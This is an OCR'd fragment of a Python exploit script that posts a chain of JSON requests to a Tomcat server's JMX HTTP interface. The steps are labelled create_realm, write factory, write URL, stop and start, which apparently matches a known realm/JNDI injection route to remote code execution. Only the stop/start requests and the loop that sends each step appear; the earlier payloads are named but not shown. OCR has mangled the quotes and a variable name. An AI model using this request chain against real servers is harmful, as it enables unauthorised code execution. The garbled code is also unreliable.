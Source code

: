 ```

}

stop = {

“mbean”: “Tomcat:realmPath=/realm0,type=Realm”,

“type”: “EXEC”,

“operation”: “stop”,

“arguments”: []

}

start = {

“mbean”: “Tomcat:realmPath=/realm0,type=Realm”,

“type”: “EXEC”,

“operation”: “start”,

“arguments”: []

}

flow = [create_realm, wirte_factory, write_url, stop, start] `for i in flow:

print(’%s MBean %s: %s …’ % (i[‘type’].title(), i[‘mbean’], i.get(‘operation’, i.get(‘attribute’))))

r = requests.post(url, json=i)

r.json()

print(r.status_code)` 
```